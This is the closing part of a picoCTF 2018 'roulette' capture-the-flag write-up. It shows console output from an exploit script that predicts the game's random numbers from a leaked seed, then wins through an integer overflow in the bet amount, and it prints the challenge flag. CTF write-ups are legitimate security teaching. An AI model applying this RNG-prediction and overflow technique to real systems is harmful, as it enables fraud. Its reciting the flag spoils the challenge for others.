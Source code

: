 The output:
```console
root@kali:/media/sf_CTFs/pico/roulette# python exploit.py
[+] Opening connection to 2018shell3.picoctf.com on port 48312: Done
Here, have $2552 to start on the house! You'll lose it all anyways >:)

[*] Seed: 2552
[+] Starting local process './rand_rol': pid 2131
[+] Receiving all data: Done (28B)
[*] Process './rand_rol' stopped with exit code 0 (pid 2131)
[*] Random values: ['25', '5', '20', '12', '31', '35', '19', '1', '20', '13', '']
[*] Making bet: Amount: 1, number: 25
Spinning the Roulette for a chance to win $2!
Roulette  :  25
Darn, you got it right.
[*] Making bet: Amount: 1, number: 20
Spinning the Roulette for a chance to win $2!
Roulette  :  20
You chose correct!
[*] Making bet: Amount: 1, number: 31
Spinning the Roulette for a chance to win $2!
Roulette  :  31
Wow.. Nice One!
[*] Making bet: Amount: 2247483647, number: 1
Spinning the Roulette for a chance to win $199999998!
Roulette  :  19
WRONG
It's over for you.
[+] Receiving all data: Done (140B)
[*] Closed connection to 2018shell3.picoctf.com port 48312

*** Current Balance: $2047486204 ***
Wow, I can't believe you did it.. You deserve this flag!
picoCTF{1_h0p3_y0u_f0uNd_b0tH_bUg5_8fb4d984}
```

The flag: picoCTF{1_h0p3_y0u_f0uNd_b0tH_bUg5_8fb4d984}
